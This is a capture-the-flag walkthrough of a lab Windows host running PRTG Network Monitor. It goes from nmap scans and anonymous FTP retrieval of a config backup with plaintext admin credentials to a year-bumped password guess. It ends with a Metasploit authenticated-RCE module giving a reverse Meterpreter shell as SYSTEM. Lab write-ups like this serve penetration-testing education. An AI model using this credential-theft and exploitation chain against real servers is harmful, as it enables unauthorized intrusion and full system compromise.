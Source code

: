 Target: 10.10.10.152

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.152

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-15 01:36 PDT
Nmap scan report for 10.10.10.152
Host is up (0.095s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-15T08:36:54
|_  start_date: 2021-05-15T08:35:04
```

checking 10.10.10.152

![index](netmon1.png)

### Findings:Looking for attack vectors

Ftp can be accessed through Anonymous FTP login.
Traverse and find website config files.


## Foothold:

[Location of Paessler config files](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data)

ftp login
```
$ ftp 10.10.10.152

ftp> cd "Programdata"\\Paessler\\"PRTG Network Monitor"

ftp> get "PRTG Configuration.old.bak"

local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1153755 bytes received in 2.80 secs (402.3314 kB/s)
```

looking for creds
```
$ less "PRTG Configuration.old.bak"

<snip>
<dbpassword>
    <!-- User: prtgadmin -->
     PrTg@dmin2018
</dbpassword>
<snip>
```

Loot:

prtgadmin:PrTg@dmin2018

trying password on a different year

prtgadmin:PrTg@dmin2019

trying credentials

![login](netmon2.png)

Metasploit
```
$ msfconsole
```

searching for prtg exploits
```
search prtg

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/windows/http/prtg_authenticated_rce  2018-06-25       excellent  Yes    PRTG Network Monitor Authenticated RCE


use exploit/windows/http/prtg_authenticated_rce
set RHOSTS 10.10.10.152
set LHOST tun0
set ADMIN_USERNAME prtgadmin
set ADMIN_PASSWORD PrTg@dmin2019
run
```

```
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

```
meterpreter > cd C:\\Users\\Public

meterpreter > cat user.txt

<redacted>

meterpreter > cd C:\\Users\\Administrator\\Desktop

meterpreter > cat root.txt

<redacted>
```
